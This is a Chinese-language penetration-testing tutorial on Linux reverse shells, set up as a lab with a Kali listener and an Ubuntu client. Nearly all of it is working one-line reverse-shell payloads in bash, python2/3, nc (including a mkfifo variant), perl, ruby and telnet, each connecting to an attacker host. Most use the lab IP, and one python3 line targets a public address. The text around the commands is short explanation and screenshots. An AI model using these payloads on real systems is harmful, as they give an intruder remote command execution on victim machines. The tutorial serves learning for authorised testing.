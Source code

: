 # 简介

LInux反弹Shell(Reveser Shell), 也可以称为反向Shell, 由被控制端主动向控制端发送请求建立通讯, 随后将执行命令的结果输出到控制端, 本质上是网络概念的客户端与服务端的角色反转

本篇文章介绍LINUX反弹Shell的多种姿势, 在真实的渗透环境中, 根据客户端存在哪些命令的实际情况, 来采取相应的反弹shell姿势



# 实验环境

| 操作系统             | IP地址         |
| -------------------- | -------------- |
| Kali Linux(服务端)   | 192.168.47.155 |
| Ununtu Linux(客户端) | 192.168.47.151 |



# 服务端监听端口

服务端kali监听端口

```
nc -lvp 4444
```

![image-20221126161342759](Linux反弹shell/image-20221126161342759.png)	



# 客户端反弹shell

## 1.bash反弹

```
bash -i >& /dev/tcp/192.168.47.155/4444 0>&1
```

> - `bash -i` 表示在本地打开一个交互式BashSehll
> - `/dev/tcp`是Linux一个特殊设备, 打开该文件相当于建立socket连接, 读写该文件相当于在socket连接中传输数据
> - `0>&1`将标准输入重定向至标准输出
>
> `bash -i >& /dev/tcp/192.168.47.155/4444`表示将bash的标准输出和标准错误输出发送给远程服务器的4444端口。我们只要客户端主机输入命令, 命令执行的结果以及错误提示都会发送给远程服务器

![image-20221126173912240](Linux反弹shell/image-20221126173912240.png)	

![image-20221126173930758](Linux反弹shell/image-20221126173930758.png)	



## 2.python反弹

### python3

```
python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('123.6.44.67',9090));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

![image-20221126215634494](Linux反弹shell/image-20221126215634494.png)	

![image-20221126215649332](Linux反弹shell/image-20221126215649332.png)	



### python2

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.47.155",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20221126222452893](Linux反弹shell/image-20221126222452893.png)	

![image-20221126222459319](Linux反弹shell/image-20221126222459319.png)	



## 3.nc反弹shell

```
nc 192.168.47.155 4444 -e /bin/bash
```

> -e后面接的参数表示在创建连接后执行的程序

![image-20221126220706747](Linux反弹shell/image-20221126220706747.png)	

![image-20221126220642719](Linux反弹shell/image-20221126220642719.png)	



有些老版本的nc不支持`-e`参数, 可使用如下命令进行反弹

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.47.155 4444 >/tmp/f
```

![image-20221126221325835](Linux反弹shell/image-20221126221325835.png)	

![image-20221126221348830](Linux反弹shell/image-20221126221348830.png)	



## 4.perl反弹

### 依赖`/bin/sh`

```
perl -e 'use Socket;$i="192.168.47.155";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![image-20221126221711114](Linux反弹shell/image-20221126221711114.png)	

![image-20221126222013052](Linux反弹shell/image-20221126222013052.png)	



### 不依赖`/bin/sh`	

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.47.155:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

![image-20221126222110406](Linux反弹shell/image-20221126222110406.png)	

![image-20221126222126949](Linux反弹shell/image-20221126222126949.png)	



## 5.ruby反弹

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.47.155","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

![image-20221126232240240](Linux反弹shell/image-20221126232240240.png)	

![image-20221126232254038](Linux反弹shell/image-20221126232254038.png)



## 6.telnet反弹

```
mknod backpipe p && telnet 192.168.47.155 4444 0<backpipe | /bin/bash 1>backpipe
```

![image-20221127001032000](Linux反弹shell/image-20221127001032000.png)	

![image-20221127001043908](Linux反弹shell/image-20221127001043908.png)		

